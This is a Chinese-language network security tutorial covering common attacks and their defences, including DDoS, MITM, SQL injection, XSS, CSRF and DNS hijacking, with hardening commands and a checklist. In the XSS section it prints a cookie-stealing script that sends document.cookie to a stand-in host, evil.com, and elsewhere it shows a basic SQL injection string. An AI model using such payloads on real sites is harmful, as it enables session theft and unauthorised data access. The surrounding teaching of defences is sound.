





# 网络安全

网络安全是保护网络系统和数据免受攻击、破坏和未授权访问的实践。

## 安全原则

### CIA 三要素



| 原则   | 描述               | 威胁示例  |
| ------ | ------------------ | --------- |
| 机密性 | 信息不被未授权访问 | 数据泄露  |
| 完整性 | 信息不被篡改       | 数据修改  |
| 可用性 | 服务持续正常运行   | DDoS 攻击 |

## 常见攻击类型

### 1. DoS / DDoS 攻击

**分布式拒绝服务攻击**：通过大量请求耗尽目标资源。



**攻击类型**：

| 类型         | 层级   | 描述                  |
| ------------ | ------ | --------------------- |
| SYN Flood    | 传输层 | 大量半开连接耗尽资源  |
| UDP Flood    | 传输层 | UDP 报文淹没          |
| HTTP Flood   | 应用层 | 大量 HTTP 请求        |
| 反射放大攻击 | 网络层 | 利用 DNS/NTP 放大流量 |

**防护措施**：

- 流量清洗服务（CDN）
- SYN Cookie
- 速率限制
- 黑洞路由

### 2. SYN Flood 攻击



**防护**：

```bash
# Linux 启用 SYN Cookie
echo 1 > /proc/sys/net/ipv4/tcp_syncookies

# 调整半连接队列
echo 2048 > /proc/sys/net/ipv4/tcp_max_syn_backlog
```

### 3. 中间人攻击 (MITM)

**攻击者插入通信双方之间**：


**类型**：

- ARP 欺骗
- DNS 劫持
- SSL 剥离
- Wi-Fi 钓鱼

**防护**：

- 使用 HTTPS
- 验证证书
- HSTS
- 证书透明度

### 4. SQL 注入

**将恶意 SQL 代码注入查询**：

```sql
-- 正常查询
SELECT * FROM users WHERE id = '1';

-- 注入攻击
SELECT * FROM users WHERE id = '1' OR '1'='1';
```

**防护**：

```java
// ❌ 错误：字符串拼接
String sql = "SELECT * FROM users WHERE id = '" + userId + "'";

// ✅ 正确：参数化查询
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE id = ?");
stmt.setString(1, userId);
```

### 5. XSS 跨站脚本

**在网页中注入恶意脚本**：

| 类型       | 描述                  |
| ---------- | --------------------- |
| 存储型 XSS | 恶意脚本存储在数据库  |
| 反射型 XSS | 恶意脚本在 URL 参数中 |
| DOM XSS    | 在客户端 DOM 中执行   |

**示例**：

```html
<!-- 恶意输入 -->
<script>
  document.location = "http://evil.com/steal?cookie=" + document.cookie;
</script>
```

**防护**：

```javascript
// 输出编码
function escapeHtml(text) {
  return text
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;");
}
```

```http
# CSP 头部
Content-Security-Policy: default-src 'self'; script-src 'self'
```

### 6. CSRF 跨站请求伪造

**诱骗用户执行非预期操作**：



**防护**：

```html
<!-- CSRF Token -->
<form action="/transfer" method="POST">
  <input type="hidden" name="_csrf" value="random_token_here" />
  ...
</form>
```

```http
# SameSite Cookie
Set-Cookie: session=abc; SameSite=Strict
```

### 7. DNS 劫持

**篡改 DNS 解析结果**：



**防护**：

- 使用可信 DNS（8.8.8.8, 1.1.1.1）
- DNSSEC 验证
- DoH / DoT 加密

## 安全协议

| 协议    | 层级   | 用途          |
| ------- | ------ | ------------- |
| TLS/SSL | 传输层 | 加密通信      |
| IPSec   | 网络层 | VPN           |
| SSH     | 应用层 | 安全远程访问  |
| HTTPS   | 应用层 | 安全 Web 访问 |

## 防火墙

### 类型

| 类型         | 描述             |
| ------------ | ---------------- |
| 包过滤       | 基于 IP/端口过滤 |
| 状态检测     | 跟踪连接状态     |
| 应用层网关   | 检测应用层协议   |
| 下一代防火墙 | DPI + 威胁情报   |

### iptables 示例

```bash
# 允许已建立的连接
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# 允许 SSH
iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# 允许 HTTP/HTTPS
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# 默认拒绝
iptables -P INPUT DROP
```

## 安全检测工具

| 工具       | 用途         |
| ---------- | ------------ |
| Nmap       | 端口扫描     |
| Wireshark  | 网络抓包分析 |
| Burp Suite | Web 安全测试 |
| OWASP ZAP  | 漏洞扫描     |
| Metasploit | 渗透测试     |

## 安全检查清单

### 网络层

- [ ] 启用防火墙
- [ ] 限制开放端口
- [ ] 使用 VPN
- [ ] 启用 DDoS 防护

### 传输层

- [ ] 启用 TLS 1.2+
- [ ] 禁用弱密码套件
- [ ] 启用 HSTS

### 应用层

- [ ] 输入验证
- [ ] 输出编码
- [ ] CSRF 防护
- [ ] SQL 参数化查询
- [ ] 安全的会话管理

## 下一步

- 学习 [TLS/SSL](./tls-ssl) 协议细节
- 查看[快速参考](./quick-reference)
